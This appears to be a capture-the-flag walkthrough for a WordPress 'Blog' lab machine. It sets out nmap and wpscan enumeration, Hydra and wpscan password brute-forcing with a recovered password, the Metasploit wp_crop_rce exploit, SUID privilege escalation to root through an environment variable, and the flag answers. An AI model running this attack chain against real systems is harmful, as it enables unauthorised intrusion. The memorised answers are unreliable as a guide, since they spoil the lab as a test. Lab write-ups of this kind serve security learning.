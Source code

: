 #Blog-Billy

export IP=10.10.163.16

nmap -A -sC -oN intial $IP

#Found wordPress 5.0 velnarable on port 80.

-------------------------------------------------------------------
command: searchsploit wordpress 5.0
-------------------------------------------------------------------

found metasploit exploit for wordpress 5.0

need user name and pass word for exploit to use in msfconsole.
--------------------------------------------------------------------
command: wpscan --url http://10.10.163.16/ -e u
--------------------------------------------------------------------

bjoel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.10.163.16/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] kwheel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.10.163.16/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Aggressive Detection)

#===================================================================

Trying to burteforce password using Hydra & wpscan.

--------------------------------------------------------------------
command: hydra -l kwheel -P /usr/share/wordlists/rockyou.txt ftp://10.10.163.16

command: wpscan -U kwheel -P /usr/share/wordlists/rockyou.txt -t 30 --password-attack wp-login --url blog.thm

found password with wpscan: Username: kwheel, Password: cutiepie1
--------------------------------------------------------------------

using enum4linux to furthure enumerations.
--------------------------------------------------------------------
command: enum4linux $IP
--------------------------------------------------------------------

let's take control over the machine. using msfconsole
-------------------------------------------------------
use exploit/multi/http/wp_crop_rce
set RHOSTS
set LHOST
set USERNAME
set PASSWORD
-------------------------------------------------------

lets find prevescs in this machine by finding suid set programs in machine.
-------------------------------------------------------
find / -perm -u=s -type f 2>/dev/null
-------------------------------------------------------

we found the suid file: /usr/sbin/checker

now lets check what it does.
-------------------------------------------------------
ltrace checker

getenv("admin")                                  = nil
puts("Not an Admin")                             = 13
Not an Admin
+++ exited (status 0) +++
-------------------------------------------------------

So it gets the "admin" environment variable and prints out "Not an Admin". Wait, so if we set this environment variable, what happens?
--------------------------------------------------------------------
$ export admin=1
$ ltrace checker
getenv("admin")                                  = "1"
setuid(0)                                        = -1
system("/bin/bash"
--------------------------------------------------------------------
Oh, so now it tries to run bash! And since this is owned by root, it'll run bash as root! SWEET!
--------------------------------------------------------------------
$ checker
$ id
uid=0(root) gid=33(www-data) groups=33(www-data)
--------------------------------------------------------------------

Let's try again that stuff to find the user flag:
--------------------------------------------------------------------

$ find / 2>/dev/null | grep user.txt
/home/bjoel/user.txt
/media/usb/user.txt
--------------------------------------------------------------------

$ find / 2>/dev/null | grep root.txt
--------------------------------------------------------------------

#Q. which directory user flag was?
	ans: /media/usb

#Q. which CMS{Content management system} used?
	Ans: wordpress.

#Q. Which version?
	Ans: 5.0